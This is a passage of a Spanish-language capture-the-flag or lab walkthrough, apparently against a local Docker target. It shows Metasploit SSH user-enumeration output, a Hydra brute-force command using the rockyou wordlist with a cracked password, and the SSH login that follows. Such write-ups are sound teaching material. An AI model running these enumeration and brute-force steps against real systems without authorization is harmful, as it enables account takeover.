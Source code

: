 ```ruby
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[+] 172.17.0.2:22 - SSH - User 'sys' found
[+] Scanned 1 of 1 hosts (100% complete)
[+] Auxiliary module execution completed
```
Una vez acabada la ejecución podemos observar el posible usuario de sistema, *lovely*.  Para comprobar si estamos en lo cierto, haremos uso de la herramienta de fuerza bruta [Hydra](https://github.com/vanhauser-thc/thc-hydra) utilizando *lovely* como nombre de usuario y el diccionario [rockyou](https://github.com/topics/rockyou-wordlist) para comprobar contraseñas.
```py
❯ hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-08 16:48:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lovely   password: rockyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-08 16:49:05
```
* Con -l seleccionamos el usuario.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.

Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *lovely*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
```ruby
❯ ssh lovely@172.17.0.2
lovely@172.17.0.2's password: 
Linux 99ebdb36daec 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
lovely@90f44a27e698:~$ whoami
```